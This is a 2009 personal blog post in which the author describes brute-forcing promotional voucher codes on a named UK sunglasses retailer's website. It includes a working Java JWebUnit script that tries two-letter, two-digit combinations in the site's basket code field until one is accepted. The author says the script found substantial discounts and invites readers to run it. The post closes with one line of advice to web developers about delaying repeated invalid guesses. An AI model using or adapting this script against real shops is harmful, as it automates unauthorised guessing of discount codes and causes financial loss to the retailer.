 ```yaml
---
title: Voucher codes and promo wotsits
author: matt
type: post
date: 2009-01-22T11:22:09+00:00
url: /blog/2009/01/22/voucher-codes-and-promo-wotsits/
categories:
  - software
  - Uncategorized
tags:
  - experiments
  - java
  - security
  - voucher codes

---
```

It’s 2009! Our digital lives are a breeze and online shopping is just one more option to the newly empowered consumer. Right?

I’m sure I’m not alone in finding the process of buying anything a little tedious now:

  1. See something in the shop you like
  2. Decide not to buy it because you don’t know if that’s a good price
  3. You get home and look on the internet
  4. Now you have to poke around a few websites and try to work out which is cheapest when you consider postage and tax etc.
  5. Maybe one of the sites gives you rebate if you go through a referal like [quidco](http://www.quidco.com/)
  6. Maybe the site would give a discount if only you had a voucher code

If you ask me, It’s all a pain in the ass.

My brother emailed me yesterday:

> Anyway you can crack into this site to find some good discount codes? http://www.designersunglasses.co.uk
> 
> BR20 for 20% as expired.

I recognised this. He’s at stage 6 I thought (or at least I would have done if I’d numbered the stages in my head like I have above). He’s googled for a code but only found one that’s out of date.

I started to pen my reply:

> I know I work with computers but there’s no way I can find out what the codes are, they’ll all be validated server-side when you try a code…

Then it hit me. Why not just brute force the code? Worth a shot right?

I cobbled together a littler bit of java to try various combinations of 2 characters followed by 2 digits based on the fact that the expired code was BR20 for 20%. The code below uses [JWebUnit](http://jwebunit.sourceforge.net/) which is simply a convenience wrapper for HtmlUnit.

Long story short, it found several codes! One of which was for quite a substantial discount. I’m not going to post the codes (don’t bother asking). If you want a code, you’re welcome to run the sourcecode below or write your own. If the voucher code gets posted on the internet, it’ll probably get disabled pretty quickly too.

Has anyone else written similar things? I’m curious to what other approaches people may have taken. I also think it wouldn’t be too hard to make this a generic application that rattles through all possible codes for a user-supplied regex.

My advise to web developers for anything like this would be to introduce a delay after a few invalid guesses and then start doubling the length of the delay with each invalid guess. This would quickly make any brute force technique pretty useless.

```
[code lang="java"]
import net.sourceforge.jwebunit.junit.WebTestCase;

public class CodeFinderTest extends WebTestCase {

    public void setUp() throws Exception {
        super.setUp();
        setBaseUrl("http://www.designersunglasses.co.uk");
    }

    public void test1() {
        beginAt("/mens_sunglasses/d_g_dd3011-c96785p138605.html");
        submit();

        for (int perc = 20; perc <= 100; perc += 5) {
            for (char firstLetter = 'A'; firstLetter <= 'Z'; firstLetter++) {
                System.out.println();
                for (char secondLetter = 'A'; secondLetter <= 'Z'; secondLetter++) {

                    // generate the next code to try
                    String code = Character.toString(firstLetter)
                            + Character.toString(secondLetter) + perc;
                    System.out.print(code + ",");

                    // basket_campaign_code is the html id of the text field
                    setTextField("basket_campaign_code", code);
                    submit();

                    // if the response didn't say "invalid code" then it must have said something else...
                    if (!getPageSource().contains(
                            "You have entered an invalid code")) {
                        System.out.print("\nWAHOO!: " + code);
                        // lets get greedy and bump up the percentage discount...
                        firstLetter = secondLetter = 'Z';
                        break;
                    }
                }
            }
        }
    }
}

[/code]
```